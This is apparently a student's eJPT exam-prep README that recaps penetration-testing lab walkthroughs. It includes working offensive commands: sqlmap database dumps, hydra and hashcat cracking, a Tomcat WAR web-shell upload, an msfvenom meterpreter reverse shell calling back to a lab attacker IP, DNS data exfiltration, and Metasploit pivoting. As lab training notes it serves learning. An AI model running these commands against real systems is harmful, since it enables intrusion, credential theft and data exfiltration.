 ## eJPT 🛠

Hey Hai, This is just a walkthrough and kinda recap of what in learnt during my INE prep course for Ejpt

### Inbuilt Labs
#### HTTPS Traffic Sniffing
- Once can actually sniff HTTP traffic only in clear using wireshark, we cant examine the HTTPS traffic
- Follow TCP Stream 
#### Find the Secret Server
- sudo ip  route add 192.168.222.0/24 via  10.175.34.1     [sudo ip route add ip/subnet via gateway]
- sudo ip route add 0.0.0.0/0 via 192.168.1.1
#### Data Exfiltration
- Configure the DNS server as attcker IP for Victim machine
- https://github.com/TryCatchHCF/PacketWhisper
- Open python server on attacker machine
- Download the zip on victim machine and run it
- We are good to exflitrate data ;)

#### Burp
- Inspect the website, from that we can able to discover robots.txt
- Using sniper from burp, check all the directories availibility
- Which reveals connections directory as 200, and ?debug is parameter that we came around robots.txt
- Playing around with parameter reveals it can only be set to true
- Set it to true, gives sensitive information back
- Fixing the In Scope
- Target > Site map tab > Spider this host
- Try to bypass the login, using intercept or any other means
- Intruder option and thier positions to attack
#### Null Sessions
- nmblookup -A ip-address
- smbclient -L //10.10.21.9 -N
- enum -S 10.1.25.26    [-S for shares; -U for users; -P for password policy;]
-  nmblookup -A 10.10.10.10
-  smbclient -L //10.10.10.10 -N (list shares)
-  smbclient //10.10.10.10/share -N (mount share)
-  enum4linux -a 10.10.10.10

#### Scanning and OS Fingerprinting
- fping -a -g 10.142.111.0/24 2> /dev/null
- nmap -sn -n 10.142.111.*    [There is probably a host that does not respond to ICMP echo requests, but that has a service listening on the network.]
- nmap -sS 10.142.111.1,6,48,96,99,100,213  [SYN Scan on Alive Hosts]
#### Nessus
- Advanced Customized Scan
- DISCOVERY -> Host Discovery settings -> Use Fast Network Discovery
#### Dirbuster
- dirb http://172.16.64.140/project/ -u admin:admin 
- gobuster dir -t 50 --w /usr/share/wordlists/dirb/common.txt --url http://172.16.64.81/ -x /,php,txt,bak,old,html,xx
- ffuf -w /usr/share/wordlists/dirb/common.txt -u http://172.16.64.81/FUZZ
#### Sql Injections
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 --dbs --dump
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin --tables
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login --coloumns
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login -C username,password,logintime
- Intercept the request using burp, save it to req.txt
- sqlmap -r req.txt -p title  -> focusing cookie based sessions and multi-parameter based queries
#### Brute Force
- hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid Credentials" -L  /usr/share/username.lst -P /usr/share/pass.lst -f -V
- unshadow passwd shadow > hashestocrack
- john hashestocrack     ->password      (username)
- /etc/login.defs  -> to check hashin used for passwords
- hashcat -m 1800 -a 0 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt
### The Black Box Walkthrough's : Box 1

#### Machine 1
- fping -a -g network id with mask 2>/dev/null
- naabu -p - ip address
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- tomcat Enumeration http:ip:port/manager/html  ->   [tomcat:s3cret]
- Which helps you to upload a .war file and deploy it on the web-server [jsp web shell]
- https://github.com/BustedSec/webshell/blob/master/webshell.war
- This will lead to RCE, confirimg the base os is linux
- Creating a meterpreter payload and listen using metasploit
-  msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.16.64.10 LPORT=3211 -f elf > meter.elf
-  rename .elf to .war upload it, delpoy and this file can be relocated at /var/lib/tomcat8/webapps
-  mv /var/lib/tomcat8/webapps/meter.war /tmp/meter ls /tmp/meter chmod +x /tmp/meter
-  reverse shell at meterpreter listener

#### Machine 2
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- webserver on port 80
- dirb -u dirb http://172.16.64.140/  -> discovery a directory project, which requires uname and pass [rnadom pass admin:admin [correct]]
- dirb http://172.16.64.140/project/ -u admin:admin   [for further directory enum]
- revealed the flag path and DB credentials for next machine [fooadmin:fooadmin]
#### Machine 3
- Metasploit is ur bestie
- Search metasploit for sql version for scanners or exploits
- use auxiliary/scanner/mssql/mssql_login  [login check/bruteforce]
- use auxiliary/admin/mssql/mssql_enum     [enumeration]
- use exploit/windows/mssql/mssql_payload  [exploit]
- Gives us a meterpreter session

### The Black Box Walkthrough's : Remastered 1
#### Machine 1
- Enumeration reveals it's using V-CMS 1.0
- Search Metasploit, there will be an open exploit
- use exploit/linux/http/vcms_upload
- As mentioned it the question, the vcms server is connected to some other webserver on some other network

#### Machine 2
- cat /etc/hosts will reveal the other web server info/ or ifconfig will also gives info about the other network
- But, still we wont be able to ping the other network subnet
- run autoroute -s 192.69.228.0 -n 255.255.255.0 -> this adds route automatically to the meterprrter session
- route add 192.69.228.0 255.255.255.0 1  -> you can also use this where "1" is the meterpreter session id
- use auxiliary/scanner/portscan/tcp
- set PORTS 80, 8080, 445, 21, 22
- set RHOSTS 192.69.228.3-10
- exploit
- This will do a portscan on the remote network and reveals the open ports
- Then we need to portforward our local port to the remote port do a nmap scan
- portfwd add -l 1234 -p 21 -r 192.69.228.3  -> l [local port] p [parayvalla port] r [remote Ip]
- portfwd add -L [attacker machine IP] -l listening_port -p 80 -r [victim machine IP]
- nmap -sS -sV -p 1234 localhost
- This reveals a ftp service and version, using metasploit, we can find a inbuilt exploit, then boo tada


















